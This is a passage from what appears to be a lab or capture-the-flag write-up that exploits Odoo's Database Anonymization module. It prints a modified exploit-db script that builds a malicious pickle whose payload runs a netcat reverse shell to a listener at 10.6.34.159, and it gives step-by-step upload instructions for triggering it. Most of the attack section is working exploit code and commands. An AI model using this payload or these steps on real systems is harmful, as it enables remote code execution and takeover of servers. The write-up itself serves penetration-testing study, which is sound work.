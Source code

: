 ```
Once we have the module installed, we navigate to the settings page and select “Anonymize database” under “Database anonymization” and click on the “Anonymize Database” button. Next, we refresh the page and navigate to the same page under settings. We upload the “exploit.pickle” file generated our script and click on “Reverse the Database Anonymization” button. We should have a reverse shell.
```


Let's use the exploit provided by `exploit-db`:

Link: https://www.exploit-db.com/exploits/44064

We need to modify the script a little bit:


```python
import cPickle
import os
import base64
import pickletools

class Exploit(object):
	def __reduce__(self):
		return (os.system, (("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.6.34.159 9001 >/tmp/f"),))

with open("exploit.pickle", "wb") as f:
	cPickle.dump(Exploit(), f, cPickle.HIGHEST_PROTOCOL)

```


We can now use it:

```
python2 exploit.py
```

It will generate a `exploit.pickle` file, in order to exploit this, we need to do the following:

```
Go to Apps.
Remove the "Apps" filter and search for Database Anonymization.
Install the module
```

![](../images/Pasted%20image%2020250328172649.png)


Now:

```
Navigate to Settings → Database Anonymization.
Click Anonymize Database to create a backup (this step is required to enable reversal).
Refresh the page.
Under Database Anonymization, click Reverse the Database Anonymization.
Set up listener
Upload exploit.pickle and confirm.
```

